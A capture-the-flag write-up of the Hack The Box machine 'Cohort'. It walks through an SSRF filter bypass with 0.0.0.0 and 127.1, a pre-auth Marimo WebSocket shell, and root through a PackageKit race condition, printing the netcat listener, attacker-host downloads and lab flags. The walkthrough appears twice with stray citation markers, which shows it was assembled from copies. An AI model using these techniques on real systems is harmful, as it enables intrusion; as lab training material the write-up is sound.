








# Cohort — Hack The Box Write-Up

- **Target:** `10.129.215.166` (`cohort.htb`)
- **OS:** Ubuntu Linux
- **Focus:** Web enumeration, SSRF filter bypass, pre-auth WebSocket RCE, local privilege escalation

## About This Machine
**Cohort** is a Linux-based Hack The Box machine centered on Cohort Analytics, a data analytics and retention-modelling web application. The attack chain demonstrates how an incomplete Server-Side Request Forgery (SSRF) blocklist on a report feed validator can be bypassed to map internal Nginx upstreams, uncover an internal Marimo notebook workspace (`0.20.4`) vulnerable to pre-authentication Remote Code Execution (`CVE-2026-39987`), and escalate privileges to `root` by exploiting a local TOCTOU race condition in PackageKit (`CVE-2026-41651` / Pack2TheRoot).

---

## 1. Enumeration & Reconnaissance
Ran a service and default script scan (`nmap -sCV 10.129.215.166 -oA /home/kali/cohort/cohort`):

- **Open Ports:** `22/tcp` (OpenSSH 9.6p1), `80/tcp` (Nginx 1.24.0 -> redirects to `https://cohort.htb/`), and `443/tcp` (Nginx 1.24.0, TLS cert for `cohort.htb` and `*.cohort.htb`).
- **Next Step:** Add `cohort.htb` to `/etc/hosts`, check the web app, and watch for subdomains (`*.cohort.htb`).

## 2. Web Enumeration & SSRF Discovery
Exploring `https://cohort.htb` surfaced two primary leads:

- **Potential Usernames:** Identified two team members on the main site — **Mara Quinteros** and **Devin Oyelaran** — giving us candidate usernames for later authentication or vhost enumeration.
- **Suspected SSRF Surface:** Under **Client Insights** ("Register a report source URL"), the form takes a URL and states it fetches and previews the feed while blocking internal and loopback addresses.

Testing `http://10.10.16.229/test.csv` against a local Python HTTP server (`python3 -m http.server 80`) confirmed outbound server-side fetching:

- **SSRF Confirmed:** The target requested `/test.csv` and returned `Reachable. HTTP 200 (text/csv)` with the file preview.
- **Filter Bypass (`0.0.0.0`):** Submitting `http://0.0.0.0/status` bypassed the internal/loopback check and returned JSON from `cohort-edge` (`nginx`).

- **Leaked Upstreams:** The response exposed internal targets including `cohort.htb` (`/var/www/cohort`), `/api/` (`127.0.0.1:5000`), and `nb-1be3782a8afd3ad5.cohort.htb` (`127.0.0.1:8888`, an internal analyst workspace).
- **Next Step:** Check `nb-1be3782a8afd3ad5.cohort.htb` (and test internal ports `5000` / `8888` or `/api/` endpoints) to see what is exposed and how to pivot.

## 3. Internal Workspace Enumeration & Initial Access
Checking `nb-1be3782a8afd3ad5.cohort.htb` led to a Marimo notebook login screen; without credentials, I pivoted back to the SSRF to inspect the internal `8888` service:

- **Version Leaked (`0.20.4`):** Submitting `http://127.1:8888/api/version` through the URL validator returned `0.20.4`.
- **Known Vulnerability (`CVE-2026-39987` / `GHSA-2679-6mx9-h9xc`):** Marimo versions prior to `0.23.0` have a pre-authentication RCE flaw on the `/terminal/ws` WebSocket endpoint that allows an unauthenticated interactive shell.

After activating my Python virtual environment (`source myenv/bin/activate`) and starting a Netcat listener on port `5555` (`nc -nlvp 5555`), I ran the exploit against `https://nb-1be3782a8afd3ad5.cohort.htb`:

- **Foothold Achieved:** Connected to `wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws` and received a reverse shell as `marimo` (`uid=1000(marimo)`).
- **User Flag:** Retrieved `user.txt` (`adb5c4cd99b2d0e958bd271561e666f0`).
- **Next Step:** Enumerate local privileges (`sudo -l`, SUID binaries, cron jobs, services, and `notebooks/`) to find a privilege escalation path to `root`.

## 4. Privilege Escalation Enumeration
Started a local HTTP server on Kali (`python3 -m http.server 8000` in `~/Tools/peass/linpeas`) and transferred `linpeas.sh` to the target as `marimo`:

- **Transfer & Execution:** Downloaded `linpeas.sh` via `curl -s http://10.10.16.229:8000/linpeas.sh -o linpeas.sh`, set executable permissions (`chmod +x linpeas.sh`), and ran `./linpeas.sh`.

LinPEAS flagged a high-value local privilege escalation lead in PackageKit:

- **PackageKit (`CVE-2026-41651` / Pack2TheRoot):** Detected PackageKit `1.2.8-2ubuntu1.2`, which is below the Ubuntu 24.04 patched version (`1.2.8-2ubuntu1.5`). CVE-2026-41651 is a TOCTOU race condition on transaction flags in PackageKit that allows local privilege escalation.
- **Next Step:** Exploit `CVE-2026-41651` (Pack2TheRoot) to escalate from `marimo` to `root` and retrieve `root.txt`.

## 5. Privilege Escalation (`CVE-2026-41651` / Pack2TheRoot)
Transferred the `CVE-2026-41651` exploit (`wget http://10.10.16.229:8000/CVE-2026-41651.py`) to the target and executed it (`python3 CVE-2026-41651.py`):

- **Exploit Mechanics:** The script built dummy and payload `.deb` packages (`/tmp/pk-dummy-54637.deb` and `/tmp/pk-payload-54637.deb`), connected to the system D-Bus to create a PackageKit transaction (`/2_abedebcc`), and raced the `SIMULATE` to `REAL` transaction flags to drop a SUID bash binary at `/var/tmp/.suid_bash`
- **Root Escalation:** Executing `/var/tmp/.suid_bash` elevated effective privileges to `euid=0(root)` (`whoami` -> `root`)

- **Root Flag:** Navigated to `/root` and retrieved `root.txt` (`0e4e7e50f81cff4e0533669252337a14`)

## 1. Enumeration & Reconnaissance
I started with an Nmap service and default script scan (`nmap -sCV 10.129.215.166 -oA /home/kali/cohort/cohort`) to map out the exposed attack surface:

- **Open Ports:** `22/tcp` (OpenSSH 9.6p1 on Ubuntu), `80/tcp` (Nginx 1.24.0 redirecting to `https://cohort.htb/`), and `443/tcp` (Nginx 1.24.0 serving a TLS certificate for `cohort.htb` and `*.cohort.htb`)[cite: 3].
- **Observation & Next Step:** Seeing a wildcard Subject Alternative Name (`*.cohort.htb`) on the TLS certificate is a strong hint that virtual host routing or hidden subdomains are in play. I added `cohort.htb` to `/etc/hosts` to inspect the web application and keep an eye out for subdomain references.

---

## 2. Web Enumeration & SSRF Discovery
Browsing `https://cohort.htb` revealed a clean analytics platform with two useful leads:

- **Potential Usernames:** The **Team** section listed two staff members — **Mara Quinteros** (Founder, retention modelling) and **Devin Oyelaran** (Analytics engineering) — giving me valid names to keep in mind for usernames or password lists later on.
- **Suspected SSRF Surface:** Under **Client Insights** ("Register a report source URL"), the application asks for a data feed URL, fetches it server-side to verify reachability, and displays a short preview while noting that internal and loopback addresses are rejected.

To verify whether the server was actually making outbound HTTP requests, I spun up a local Python HTTP server (`python3 -m http.server 80`) and submitted `http://10.10.16.229/test.csv`:

- **SSRF Confirmed:** My listener immediately caught the `GET /test.csv` request from `10.129.215.166`, and the web UI returned `Reachable. HTTP 200 (text/csv)` along with the contents of my CSV file.
- **Filter Bypass (`0.0.0.0`):** Even though standard loopback addresses like `127.0.0.1` or `localhost` were blocked, submitting `http://0.0.0.0/status` slipped right past the validation check and returned a JSON payload from `cohort-edge` (`nginx`).

- **Leaked Upstreams:** The `/status` response exposed the internal routing table, including `cohort.htb` (`/var/www/cohort`), `/api/` (`127.0.0.1:5000`), and an internal analyst workspace at `nb-1be3782a8afd3ad5.cohort.htb` (`127.0.0.1:8888`).
- **Next Step:** Add `nb-1be3782a8afd3ad5.cohort.htb` to `/etc/hosts` and inspect what is running on internal port `8888`.

---

## 3. Internal Workspace Enumeration & Initial Access
Navigating to `https://nb-1be3782a8afd3ad5.cohort.htb` brought up a **Marimo** notebook login prompt asking for an Access Token or Password. Since I did not have credentials, I pivoted back to the SSRF validator—using shorthand IP notation (`127.1`) to bypass the loopback filter again—to query Marimo's internal API on port `8888`:

- **Version Leaked (`0.20.4`):** Requesting `http://127.1:8888/api/version` returned `0.20.4`.
- **Known Vulnerability (`CVE-2026-39987` / `GHSA-2679-6mx9-h9xc`):** Researching Marimo `0.20.4` showed that versions prior to `0.23.0` suffer from a critical pre-authentication Remote Code Execution vulnerability on the `/terminal/ws` WebSocket endpoint, allowing an unauthenticated attacker to spawn an interactive shell.

After activating my Python virtual environment (`source myenv/bin/activate`) and starting a Netcat listener on port `5555` (`nc -nlvp 5555`), I launched the exploit against `https://nb-1be3782a8afd3ad5.cohort.htb`:

- **Foothold Achieved:** The exploit connected directly to `wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws`[cite: 10] and returned a reverse shell as `marimo` (`uid=1000(marimo)`).
- **User Flag:** Inside `/home/marimo`, I found the `notebooks` directory alongside `user.txt` (`adb5c4cd99b2d0e958bd271561e666f0`).
- **Next Step:** Run automated and manual local enumeration to identify a privilege escalation vector to `root`.

---

## 4. Privilege Escalation Enumeration
I hosted `linpeas.sh` from my Kali machine (`python3 -m http.server 8000` in `~/Tools/peass/linpeas`)[cite: 12] and pulled it onto the target as `marimo`:

- **Transfer & Execution:** Downloaded `linpeas.sh` using `curl -s http://10.10.16.229:8000/linpeas.sh -o linpeas.sh`, marked it executable (`chmod +x linpeas.sh`), and ran `./linpeas.sh`.

Reviewing the LinPEAS output highlighted an outdated PackageKit installation vulnerable to local privilege escalation:

- **PackageKit (`CVE-2026-41651` / Pack2TheRoot):** The system was running PackageKit `1.2.8-2ubuntu1.2`, which predates the Ubuntu 24.04 security patch (`1.2.8-2ubuntu1.5`). `CVE-2026-41651` exploits a Time-of-Check to Time-of-Use (TOCTOU) race condition in PackageKit transaction flags to install arbitrary local packages as `root`.
- **Next Step:** Transfer and run the `CVE-2026-41651` PoC exploit to escalate privileges to `root`.

---

## 5. Privilege Escalation (`CVE-2026-41651` / Pack2TheRoot)
I downloaded `CVE-2026-41651.py` onto the target (`wget http://10.10.16.229:8000/CVE-2026-41651.py`) and executed it with `python3 CVE-2026-41651.py`:

- **Exploit Mechanics:** The script generated a dummy package (`/tmp/pk-dummy-54637.deb`) and a malicious payload package (`/tmp/pk-payload-54637.deb`), opened a PackageKit transaction (`/2_abedebcc`) over D-Bus, and raced the `SIMULATE` to `REAL` transaction flags so PackageKit installed the payload without authorization—dropping a SUID bash binary at `/var/tmp/.suid_bash`.
- **Root Escalation:** Once the race succeeded, `/var/tmp/.suid_bash` spawned a shell with `euid=0(root)` (`whoami` -> `root`).

- **Root Flag:** Moving into `/root` revealed `root.txt` (`0e4e7e50f81cff4e0533669252337a14`), completing the machine.

---

## Key Takeaways
- **Incomplete SSRF Blocklists Are Easy to Bypass:** Blocking `127.0.0.1` and `localhost` by string or basic parsing is never enough—alternative representations like `0.0.0.0` and shortened IP notation (`127.1`) still route straight to local services. Proper SSRF defenses need strict DNS/IP resolution validation after parsing and allowlisting of permitted destinations.
- **Internal Services Still Need Authentication & Patching:** Even though the Marimo workspace was meant to be an internal analyst tool, exposing its subdomain externally without network-level isolation meant a single pre-auth WebSocket bug (`CVE-2026-39987`) handed over an immediate foothold.
- **Chaining Small Leaks Builds the Full Picture:** Each step on **Cohort** relied on information leaked from the previous stage—from the wildcard TLS cert[cite: 3] and `/status` endpoint to the `/api/version` leak—showing why thorough enumeration matters even after gaining access to a vulnerability.
